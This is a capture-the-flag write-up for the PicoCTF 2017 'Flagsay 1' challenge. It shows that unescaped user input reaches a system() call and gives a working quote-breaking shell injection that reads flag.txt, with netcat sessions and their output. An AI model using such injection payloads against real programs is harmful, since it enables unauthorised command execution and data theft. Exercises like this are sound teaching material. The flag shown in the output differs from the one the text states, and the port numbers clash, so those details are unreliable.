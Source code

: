 # PicoCTF_2017: Flagsay 1

**Category:** Binary
**Points:** 80
**Description:**

>I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](flagsay-1.c)! Source. Connect on shell2017.picoctf.com:51865.

**Hint:**

>System will run exactly what the program gives it

## Write-up
Another simple 1, looking at the source code reveals that whatever is inputted by the user is then `echo` by system.

    char commandBase[] = "/bin/echo \"%s\"\n";

Testing the program with random input,

	$ nc shell2017.picoctf.com 12442
	"aaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaa                              /     
	            //                                   /      
	           //                                   /       
	          //                                   /        
	         //                                   /         
	        //                                   /          
	       //___________________________________/           
	      //                                                
	     //                                                 
	    //                                                  
	   //                                                   
	  //                                                    
	 //                                                     

We can see that input gets inside of the flag.
However, input is unescaped, so we can pass on a shell command like 

     $ nc shell2017.picoctf.com 12442
	aaaa"
	               _                                        
	              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
	             //aaaa /
	sh: 4: //: Permission denied
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

As seen above, `"` at the end of the input breaks the code. Also, we can see the shell in the second and the following lines.

Then, we can do something like this to break the first line with charac

    $ nc shell2017.picoctf.com 12442
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"bin/cat flag.txt
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/
	6116b5c621137949e3f70fd31f7cc29a
	//bin/cat: /: Is a directory
	sh: 5: //: Permission denied
	sh: 6: //: Permission denied
	sh: 7: //: Permission denied
	sh: 8: //: Permission denied
	sh: 9: //___________________________________/: not found
	sh: 10: //: Permission denied
	sh: 11: //: Permission denied
	sh: 12: //: Permission denied
	sh: 13: //: Permission denied
	sh: 14: //: Permission denied
	sh: 15: //: Permission denied
	sh: 17: Syntax error: Unterminated quoted string

Therefore, the flag is `2ab2050bf32e84975a10d774a919e1d0`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3NDQyNTMxNzhdfQ==
-->